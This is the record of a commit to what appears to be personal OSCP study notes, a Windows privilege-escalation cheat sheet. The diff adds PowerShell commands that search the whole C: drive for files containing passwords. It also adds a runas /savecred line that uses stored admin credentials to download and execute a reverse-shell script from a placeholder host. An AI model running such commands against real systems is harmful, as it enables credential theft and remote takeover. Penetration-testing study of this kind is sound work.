

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/15_windows_privesc.md, in a window 1280 px wide and 1400 px high, scrolled down 930 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Add things

````diff
--- a/docs/15_windows_privesc.md
+++ b/docs/15_windows_privesc.md
@@ -51,6 +51,11 @@ Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction Si
 Get-ChildItem -Path C:\Users\ -Include *.txt,*.xml,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
 # search in hidden directories too (-Force)
 Get-ChildItem -Path C:\Users\ -Include *.txt, *.xml -File -Recurse -Force -ErrorAction SilentlyContinue
+
+# search for passwords in all files
+Get-ChildItem -Path C:\ -Recurse -File -Force -ErrorAction SilentlyContinue | Select-String -Pattern "password" -ErrorAction SilentlyContinue
+# search for passwords in specific file types
+Get-ChildItem -Path C:\ -Recurse -File -Force -Include "*.txt","*.config","*.json" -ErrorAction SilentlyContinue | Select-String -Pattern "password" -ErrorAction SilentlyContinue
 ```
 
 ## Passwords
@@ -82,8 +87,10 @@ reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
 # show stored credentials
 cmdkey /list
 
-# transfer a reverse shell and execute it with the credentials
+# transfer a reverse shell and execute it with the credentials or directly with PS
 runas /savecred /user:admin reverse.exe
+runas /savecred /user:admin "powershell -c IEX (New-Object
+Net.Webclient).downloadstring('http://<ip>/rshell.ps1')"
 ```
 
 ### RunasCs
````
Also changed, not shown: docs/10_info_gathering.md (+1 -2 lines), docs/11_web_attacks.md (+3 -0 lines), docs/12_client-side_attacks.md (+1 -1 lines), docs/index.md (+4 -0 lines).
